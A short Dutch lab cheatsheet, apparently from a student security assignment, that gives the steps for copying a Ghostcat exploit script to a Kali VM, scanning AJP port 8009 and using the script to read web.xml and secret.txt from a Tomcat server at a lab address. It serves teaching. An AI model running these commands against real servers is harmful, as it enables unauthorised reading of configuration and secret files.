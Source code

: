 # 🗒️ Cheatsheat

Volg de stappen hieronder om de aanval succesvol uit te voeren

## Host

Open een terminal vanaf de host om het bestand over te zetten naar de kali vm

```bash
scp -P 2222  "C:/Users/<Gebruikersnaam>/<Het pad waar je de folder hebt opgeslagen>/cyber-npe-opdracht/scripts/python/exploit_ghostcat.py" osboxes@localhost:~/Desktop
```

## Kali

Open een terminal in de ubuntu vm en voer volgende commando's uit

```bash
su -
cd /home/osboxes/Desktop
chmod +x exploit_ghostcat.py
nmap 10.10.10.4 -p 8009
python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
```
